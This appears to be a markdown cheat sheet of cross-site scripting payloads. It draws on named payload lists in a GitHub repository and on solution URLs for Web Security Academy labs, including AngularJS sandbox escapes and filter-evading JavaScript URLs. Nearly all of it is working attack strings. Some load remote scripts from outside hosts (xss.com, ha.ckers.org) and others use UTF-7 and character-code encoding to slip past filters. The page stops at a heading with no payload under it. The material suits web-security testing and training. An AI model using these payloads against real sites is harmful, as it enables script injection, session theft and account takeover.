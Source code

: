 - [Jhaddix](https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt)
    
    ```jsx
    '%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
    <<scr\\0ipt/src=http://xss.com/xss.js></script
    %27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
    ' onmouseover=alert(/Black.Spook/)
    ```
    
- [RSnake](https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt)
    
    ```jsx
    <SCRIPT>alert('XSS');</SCRIPT>
    '';!--"<XSS>=&{()}
    <SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
    ```
    
- [Mario](https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt)
    
    ```jsx
    <div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
    ```
    
- [seXSS](https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md)****
    
    > **Search Engine XSS [ google,yaho,…. ]**
    
- `${alert(1)}` ****Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped****
    
    ```jsx
    <script>
           var message = `0 search results for '\\u003clol\\u003e'`;
           document.getElementById('searchMessage').innerText = message;
    </script>
    ```
    
- ****Reflected XSS in a JavaScript URL with some characters blocked****
    
    ```jsx
    <https://0acb00f104aa459e80797b07005f0087.web-security-academy.net/post?postId=5&%27>},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
    ```
    
- ****Reflected XSS with AngularJS sandbox escape without strings****
    
    ```jsx
    <https://0ab200eb039caf1281bdacc000a5007e.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1>]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
    ```
    
- ****Reflected XSS with AngularJS sandbox escape and CSP****
    
